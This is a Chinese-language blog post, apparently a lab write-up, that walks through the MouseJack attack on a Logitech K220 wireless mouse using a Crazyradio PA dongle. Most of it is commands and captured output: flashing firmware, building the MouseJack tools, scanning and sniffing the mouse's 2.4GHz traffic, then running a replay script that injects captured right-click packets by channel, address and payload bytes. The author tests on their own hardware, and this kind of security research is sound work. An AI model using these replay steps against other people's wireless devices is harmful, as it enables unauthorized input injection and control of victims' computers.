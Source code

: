 ```yaml
---
layout:		post
title:		利用Crazyradio劫持无线鼠标&重放攻击
author:		wooy0ung
tags:		wireless
category:  	iot
---
```



>说明：  
>通过Crazyradio + MouseJack项目可以简答地对2.4GHz无线设备的工作频段进行嗅探，分析传输信号，进一步重放攻击。  
>环境：  
>Kali Linux 2018.2 amd64  
>设备:  
>1. Crazyradio PA 一只  
>2. 罗技K220键鼠一套  
<!-- more -->
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x001.png)


Crazyradio接入，刚买的设备id为1915:7777
```
$ lsusb
```
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x002.png)

安装依赖
```
$ sudo apt install sdcc binutils python python-pip
$ pip install pyusb
$ pip install platformio
```

刷入crazyradio pa固件
```
$ git clone https://github.com/bitcraze/crazyradio-firmware
$ cd crazyradio-firmware
$ python usbtools/launchBootloader.py	# 有时候会报错，多尝试几次
```

![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x003.png)
显示这样，就是bootloader启动成功

烧录固件
```
$ wget https://github.com/bitcraze/crazyradio-firmware/releases/download/0.53/cradio-pa-0.53.bin
$ python usbtools/nrfbootload.py flash cradio-pa-0.53.bin
```

![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x004.png)
烧录成功，重新插拔设备

这时设备id为1915:0101
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x005.png)

编译MouseJack项目
```
$ git clone --recursive https://github.com/RFStorm/mousejack.git
$ cd mousejack
$ make
$ make install
```

![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x006.png)
刷入成功

重新插拔设备，现在id为1915:0102
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x007.png)

扫描一下附近的无线设备
```
$ cd ./nrf-research-firmware/tools
$ ./nrf24-scanner.py
[2018-07-04 20:33:04.913]  74  10  62:10:91:08:A4  00:C2:00:00:FF:6F:00:00:00:D0
[2018-07-04 20:33:04.926]  74  10  62:10:91:08:A4  00:C2:00:00:00:10:00:00:00:2E
[2018-07-04 20:33:04.934]  74  10  62:10:91:08:A4  00:C2:00:00:00:20:00:00:00:1E
[2018-07-04 20:33:04.960]  74  10  62:10:91:08:A4  00:C2:00:00:00:20:00:00:00:1E
[2018-07-04 20:33:07.318]  14  10  62:10:91:08:A4  00:C2:00:00:FC:3F:00:00:00:03
[2018-07-04 20:33:15.953]  14   0  62:10:91:08:A4  
[2018-07-04 20:33:17.732]  31  10  62:10:91:08:A4  00:C2:00:00:F1:DF:FE:00:00:70
[2018-07-04 20:33:21.906]  70   0  62:10:91:08:A4  
[2018-07-04 20:33:22.301]  74   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:33:32.628]   8   0  62:10:91:08:A4  
[2018-07-04 20:33:32.711]   8   0  62:10:91:08:A4  
[2018-07-04 20:33:42.244]  17  10  62:10:91:08:A4  00:C2:00:00:FF:0F:00:00:00:30
[2018-07-04 20:33:42.256]  17   0  62:10:91:08:A4  
[2018-07-04 20:33:42.299]  17  10  62:10:91:08:A4  00:C2:00:00:FE:0F:00:00:00:31
[2018-07-04 20:33:50.347]  11  10  62:10:91:08:A4  00:C2:00:00:0D:20:FF:00:00:12
[2018-07-04 20:33:50.974]  17  10  62:10:91:08:A4  00:C2:00:00:DA:0F:00:00:00:55
[2018-07-04 20:34:07.962]  14  10  62:10:91:08:A4  00:C2:00:00:01:E0:FF:00:00:5E
[2018-07-04 20:34:07.970]  14  10  62:10:91:08:A4  00:C2:00:00:02:E0:FF:00:00:5D
[2018-07-04 20:34:07.998]  14  10  62:10:91:08:A4  00:C2:00:00:01:D0:FF:00:00:6E
[2018-07-04 20:34:08.247]  17  10  62:10:91:08:A4  00:C2:00:00:02:E0:FF:00:00:5D
[2018-07-04 20:34:15.651]   5  10  6B:AD:EE:72:B4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 20:34:16.054]   8   0  6B:AD:EE:72:B4  
[2018-07-04 20:34:35.945]  32   0  62:10:91:08:A4  
[2018-07-04 20:34:36.244]  35  10  62:10:91:08:A4  00:C2:00:00:04:10:00:00:00:2A
```
通过对无线设备进行操作，可以嗅探出设备的MAC地址信息

我这里有一套存在漏洞的罗技K220键鼠，可以确定鼠标的MAC地址是62:10:91:08:A4

现在有针对性嗅探鼠标，注意每次重新执行脚本都需要插拔设备
```
$ ./nrf24-sniffer.py -a 62:10:91:08:A4
[2018-07-04 20:43:44.083]   5  10  62:10:91:08:A4  00:C2:00:00:03:F0:FF:00:00:4C
[2018-07-04 20:43:44.090]   5  10  62:10:91:08:A4  00:C2:00:00:05:D0:FF:00:00:6A
[2018-07-04 20:43:44.098]   5  10  62:10:91:08:A4  00:C2:00:00:02:00:00:00:00:3C
[2018-07-04 20:43:44.105]   5  10  62:10:91:08:A4  00:C2:00:00:03:F0:FF:00:00:4C
[2018-07-04 20:43:44.113]   5  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 20:43:44.191]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.195]   5  10  62:10:91:08:A4  00:C2:00:00:FF:2F:00:00:00:10
[2018-07-04 20:43:44.205]   5  10  62:10:91:08:A4  00:C2:00:00:FA:3F:00:00:00:05
[2018-07-04 20:43:44.209]   5  10  62:10:91:08:A4  00:C2:00:00:FA:6F:00:00:00:D5
[2018-07-04 20:43:44.223]   5  10  62:10:91:08:A4  00:C2:00:00:FB:5F:00:00:00:E4
[2018-07-04 20:43:44.226]   5  10  62:10:91:08:A4  00:C2:00:00:FA:6F:00:00:00:D5
[2018-07-04 20:43:44.234]   5  10  62:10:91:08:A4  00:C2:00:00:F9:5F:00:00:00:E6
[2018-07-04 20:43:44.245]   5  10  62:10:91:08:A4  00:C2:00:00:FB:8F:00:00:00:B4
[2018-07-04 20:43:44.258]   5  10  62:10:91:08:A4  00:C2:00:00:F8:7F:00:00:00:C7
[2018-07-04 20:43:44.261]   5  10  62:10:91:08:A4  00:C2:00:00:F9:6F:00:00:00:D6
[2018-07-04 20:43:44.268]   5  10  62:10:91:08:A4  00:C2:00:00:F7:5F:00:00:00:E8
[2018-07-04 20:43:44.279]   5  10  62:10:91:08:A4  00:C2:00:00:F8:6F:00:00:00:D7
[2018-07-04 20:43:44.287]   5  10  62:10:91:08:A4  00:C2:00:00:FB:3F:00:00:00:04
[2018-07-04 20:43:44.295]   5  10  62:10:91:08:A4  00:C2:00:00:F9:5F:00:00:00:E6
[2018-07-04 20:43:44.303]   5  10  62:10:91:08:A4  00:C2:00:00:FB:2F:00:00:00:14
[2018-07-04 20:43:44.310]   5  10  62:10:91:08:A4  00:C2:00:00:FF:1F:00:00:00:20
[2018-07-04 20:43:44.318]   5  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 20:43:44.397]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.474]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.551]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.631]   5   5  62:10:91:08:A4  00:40:00:55:6B
```
通过移动或者点击鼠标，就能嗅探到大量数据

点击鼠标右键，持续嗅探
```
# 信道
4 5 7 13 16 17 31 40 43 65 73

# 右键按下
[2018-07-04 23:22:22.865]   4  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 23:22:22.873]   4  10  62:10:91:08:A4  00:C2:02:00:00:00:00:00:00:3C
[2018-07-04 23:22:22.882]   4  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C

# 右键松开
[2018-07-04 23:23:16.102]  13  10  62:10:91:08:A4  00:C2:00:00:00:00:00:00:00:3E
[2018-07-04 23:23:16.109]  13  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 23:23:16.185]  13   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 23:23:16.263]  13  10  62:10:91:08:A4  00:4F:00:03:70:00:00:00:00:3E
```

重放攻击以验证猜测
```
$ python replay.py -c 4 5 7 13 16 17 31 40 43 65 73 -a 62:10:91:08:A4 -d 00:4F:00:00:55:00:00:00:00:5C 00:C2:02:00:00:00:00:00:00:3C 00:4F:00:00:55:00:00:00:00:5C
Trying address 62:10:91:08:A4 on channel 13
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 40
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 4
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 4
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 16
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 43
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
```

成功出现了右键点击现象，重放成功
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x008.png)